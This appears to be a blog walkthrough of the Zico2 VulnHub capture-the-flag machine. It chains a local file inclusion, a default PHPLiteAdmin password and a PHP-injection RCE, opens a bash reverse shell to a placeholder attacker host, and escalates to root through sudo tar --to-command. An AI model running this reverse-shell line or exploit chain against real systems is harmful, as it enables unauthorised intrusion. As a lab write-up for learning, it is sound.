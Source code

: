 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! A small win, but a crucial building block for later on. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG) 

A quick Google shows us that the default password for this software is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Perfect. Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise but everything's eventual:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	_bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1_ 
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	_python -c 'import pty; pty.spawn("/bin/bash")'_
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  

![Bulldog2 WP]({{ site.url }}/images/Zico2/wp-config.JPG)  

Interesting. The wp-config.php file reveals that Zico chose his user account for the WordPress installation. Lets dump our current shell and SSH into his account to check sudo privileges:

![Bulldog2 Sudo]({{ site.url }}/images/Zico2/zico_sudo.JPG)  

Cool. Tar & Zip can be run as root with no password checks. I'm pretty sure this is the escalation path at this point, but how can we escalate with just these?  

I wasn't sure which one to focus on and so decided to check zico's .bash_history. There was evidence of 	 _sudo -u root /bin/tar --usage_ so tar looks like a good place to start looking!  

Checking this command, I saw the _--to-command_ switch. This switch will take the contents of a tar'd file and run the specified commands against each line of the file. Googling a few examples I created another reverse shell Bash script similar to the one from earlier, tar'd the file, setup my NetCat listener on my attacker machine and ran the following to extract the file and run the command:  

![Bulldog2 Trigger_Root]({{ site.url }}/images/Zico2/tar-command.JPG)  
![Bulldog2 Root_Shell]({{ site.url }}/images/Zico2/root_shell.JPG)  

Boom! Let's grab our flag:  

![Bulldog2 Flag]({{ site.url }}/images/Zico2/flag.JPG)

It's Adventure Time!! | (• ◡•)| (❍ᴥ❍ʋ)
